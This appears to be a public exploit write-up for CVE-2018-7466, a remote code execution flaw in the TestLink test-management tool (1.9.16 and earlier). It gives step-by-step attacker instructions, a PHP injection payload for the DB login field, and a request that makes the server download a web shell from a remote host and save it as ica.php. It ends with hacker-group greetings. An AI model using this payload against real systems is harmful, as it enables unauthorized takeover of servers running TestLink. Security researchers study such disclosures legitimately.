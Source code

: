 # Title: TestLink Open Source Test Management(<= 1.9.16) Remote Code Execution By Manish (error1046)
Vendor Home Page: http://testlink.org

Disovered At: Indishell Lab

CVE ID: CVE-2018-7466

///////////
//OverView
///////////

Testlink (Version Below 1.9.17) is vulnerable to Remote Code Execution.
Vulnerable code is in file "install/installNewDB.php". Testlink allows user to re-install it and when user visits "/install/" directory and reachs to "Database detail" page i.e "install/installNewDB.php", user can specifiy PHP code in  "TestLink DB login" field.
After successful installation, PHP code will get save in config file.


Exploitation

During installation process, script first try to connect MySQL "root" user account (supplied by user during installation phase), if script is able to connect to MySQL server (locally or remotly hosted), process of CMS installation goes further.

Script save MySQL server host, username and password in config file.

Here attacker can take advantage of this process to write PHP code in config file.

To do this, attacker need to setup MySQL server on a machine and MySQL server must be configure to accept connection from remote IP (which can be done easily by changing parameter in my.cnf file).

To configure MySQL server open to remote connection, just open my.cnf file and do below mentioned steps
 
 -> comment out skip-networking  as well as bind-address (if any present in my.cnf )i.e change line 
 
 			skip-networking 
    		to 
			# skip-networking
    
		and 
    
			bind-address    = some_ip
			to
			#bind-address = some_ip
  
	save the my.cnf file. reload/restart MySQL server and your mysql server will accept remote connection from any remote IP
 
 Now, you need to configure MySQL root user in such way so that when remote script try to connect to MySQL server root user, it allows remote script.
 
 When attacker provide credentials of a Remote MySQL server which is attacker controlled and listening for remote connection, attacker just need to specify the remote MySQL server IP, root users username, password and need to specify below mentioned PHP code in "TestLink DB login" field (or in HTTP POST parameter tl_loginname).
   
 	"box');file_put_contents($_GET[1],file_get_contents($_GET[2]));//"
 
 Once script establish successful connection to root user account of remote MySQL server, it will create MySQL user with name
"box');file_put_contents($_GET[1],file_get_contents($_GET[2]));//" and will write this username name in config_db.inc.php file. After that attacker just need to need to access the config file config_db.inc.php with following GET hethod HTTP parameters

    http://testlink/config_db.inc.php?1=ica.php&2=http://remote_server/php_web_shell.txt

It will dump PHP web shell in base directory with name ica.php.

![POC](https://raw.githubusercontent.com/incredibleindishell/exploit-code-by-me/master/TestLink%20-below%201.9.17-%20Remote%20Code%20Execution/testlink%20POC.png)

--==[[ Greetz To ]]==--

	Guru ji zero ,code breaker ica, root_devil, google_warrior,INX_r0ot,Darkwolf indishell,Baba,
	Silent poison India,Magnum sniper,ethicalnoob Indishell,Reborn India,L0rd Crus4d3r,cool toad,
	Hackuin,Alicks,mike waals,cyber gladiator,Cyber Ace,Golden boy INDIA,d3, rafay baloch, nag256
	Ketan Singh,AR AR,saad abbasi,Minhal Mehdi ,Raj bhai ji ,Hacking queen,lovetherisk,Bikash Dash

--==[[Love to]]==--

	My Father ,my Ex Teacher,cold fire hacker,Mannu, ViKi ,Ashu bhai ji,Soldier Of God, Bhuppi,Gujjar PCP
	Mohit,Ffe,Ashish,Shardhanand,Budhaoo,Jagriti,Salty, Hacker fantastic, Jennifer Arcuri and Don(Deepika kaushik)
